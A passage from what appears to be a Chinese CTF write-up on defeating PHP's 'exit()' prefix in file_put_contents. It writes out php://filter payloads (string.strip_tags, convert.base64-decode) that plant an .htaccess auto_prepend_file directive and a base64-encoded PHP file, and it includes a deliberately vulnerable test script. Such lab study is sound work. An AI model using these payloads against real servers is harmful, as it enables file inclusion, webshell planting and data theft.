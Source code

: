 在需要顶部或底部加载文件的文件夹中加入`.htaccess`文件，内容如下：

`php_value auto_prepend_file "/flag.php"`
`php_value auto_append_file "/flag.php"`

这样在页面顶部或者底部就可以去自动包含flag.php这个文件

```
payload:
?filename=php://filter/write=string.strip_tags/resource=.htaccess&content=?>php_value auto_prepend_file "/flag"
```

搭配string.strip_tags过滤器,再闭合前面的php标签,这样去去除`.htaccess`中的php代码,绕过了前面的死亡exit,并且自动包含了根目录下面的flag文件

再访问一下x.php

![image-20210910193723547](images/17.png)

可以看到这个文件的顶部已经包含了这个文件

不仅如此,我htaccess所在文件夹的文件顶部都出现了flag文件内容

![image-20210910193820486](images/18.png)

## bypass相同变量

测试代码

```
<?php
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```

相对于不同变量分别控制,这种相同变量的难度明显要大一些,你不仅要想办法得到一个文件名,还要写入内容并且去除exit

不过总的思路仍然是清晰的,要想办法去去除这个死亡exit,然后去写入webshell

### base64绕过

首先能想到的可以就是将进行编码的base64作为文件名来进行绕过,可以先试一试

```
php://filter/write=convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php
```

这样我们写入的文件名就是`PD9waHAgcGhwaW5mbygpOz8+.php`

文件内容是`<?php exit();?php://filter/write=convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php`,再补齐一下字符数![image-20210910200528014](images/19.png)

可以看到我写入的是一个空文件

这是为什么呢,可能熟悉base64编码的人就会知道,在base64中,=意味着结束,在=后面不允许有任何字符

当对`<?php exit();?php://filter/write=convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php`这串代码进行base64解码的时候,匹配到了一个=号,这会使base64-decode报错

那怎样去绕过这个等号呢
